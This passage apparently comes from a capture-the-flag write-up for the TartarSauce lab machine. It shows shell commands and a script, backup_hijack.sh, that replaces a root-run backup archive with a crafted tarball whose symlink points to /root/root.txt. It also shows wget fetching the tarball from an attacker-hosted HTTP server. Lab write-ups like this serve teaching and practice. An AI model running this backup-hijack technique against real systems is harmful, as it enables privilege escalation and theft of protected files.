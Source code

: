 > **Attacker Machine**:

```bash
nc 10.10.14.6 443 < malicious.tar
md5sum malicious.tar

tar -xf malicious.tar
rmk index.html &>/dev/null
ln -s -f /root/root.txt index.html
tar -zcf malicious.tar ./var/www/html

md5sum malicious.tar
python3 -m http.server 80
```

> **Victime Machine**:

```bash
wget http://10.10.14.6/malicious.tar
md5sum malicious.tar

ls -la /var/tmp | awk 'NF{print $NF}' | grep -oP '^\..*[a-f0-9]'
# I was very lucky!!

touch backup_hijack.sh
nano !$
cat !$
```

> **backup_hijack.sh**:

```bash
#!/bin/bash

while true; do
	filename=$(ls -la /var/tmp | awk 'NF{print $NF}' | grep -oP '^\..*[a-f0-9]')

	if [ $filename ]; then
		echo -e "\n[!] Backup file has been created\n"
		rm /var/tmp/$filename
		cp /dev/shm/malicious.tar /var/tmp/$filename
		echo -e "\n[!] Backup file was successfully replaced\n"
		exit 0
	fi
done
```

```bash
chmod +x !$
./!$
while true; do cat /var/backups/onuma_backup_error.txt; sleep 1; clear; done
# :)
```

<br />
<img src="{{ site.img_path }}/tartarsauce_writeup/TartarSauce_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tartarsauce_writeup/TartarSauce_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tartarsauce_writeup/TartarSauce_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tartarsauce_writeup/TartarSauce_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tartarsauce_writeup/TartarSauce_41.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />